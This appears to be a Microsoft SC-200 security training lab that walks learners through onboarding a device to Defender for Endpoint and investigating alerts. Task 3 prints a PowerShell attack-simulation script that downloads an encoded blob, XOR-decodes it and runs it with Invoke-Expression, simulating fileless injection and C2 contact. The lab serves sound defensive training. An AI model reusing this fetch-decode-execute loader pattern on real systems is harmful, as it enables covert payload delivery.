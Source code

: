 ```yaml
---
lab:
    title: 'Exercise 4 - Mitigate Attacks with Microsoft Defender for Endpoint'
    module: 'Learning Path 4 - Mitigate threats using Microsoft Defender for Endpoint'
---
```


# Learning Path 4 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will verify successful device onboarding and investigate alerts and incidents created during that process.

### Estimated time to complete this lab: 30 minutes

### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (<https://security.microsoft.com>) and login as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears in the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. In the Microsoft Defender XDR portal left menu bar, expand the **System** section and select **Settings**, then from the *Settings* page select **Endpoints**.

1. Select **Onboarding** in the Device management section and make sure *"Windows 10 and 11"* is selected as operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the windows search bar of the WIN1 virtual machine, type **CMD** and choose to **Run as Administrator** on the right pane for the Command Prompt app.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    >**Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Alerts**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

1. In the **Alerts** pane, select the alert named *[TestAlert] Suspicious PowerShell commandline* to load its details.

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

    >**Note:** Under the alert *Details* tab you can scroll down to the *Incident details* section and select the *Execution incident on one endpoint* link to open the incident.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**

1. Clear the *Alert severity* filter by selecting the **X** on the right of the filter.

1. A new incident called *[TestAlert] Suspicious PowerShell commandline* appears in the right pane. Select the incident name to load its details.

1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

1. Under **Incident tags** type "Simulation" and select **Simulation (Create new)** to create a new tag.

1. Select the toggle **Assign to**  and add your user account (Me) as owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Select **Save** to update the incident and finish.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

### Task 3 Simulate an Attack

>**Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Then, copy and run each line of the script separately in PowerShell. Also, a PowerShell script (attacksim.ps1) was provided in the files downloaded at the beginning of the labs. To use the script, in **Windows PowerShell (Admin)** navigate to the *\Users\Admin\Desktop\Allfiles* folder and type *.\attacksim.ps1* and press **Enter** to run it.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Incidents**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

    >**Note:** If you do not see the incident, make sure to clear the *Alert severity* filter by selecting the **X** on the right of the filter.

1. Under the *Attack story* tab, collapse the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Re-expand the **Alerts** pane (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details and scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain and information for the IP address.

## You have completed the lab
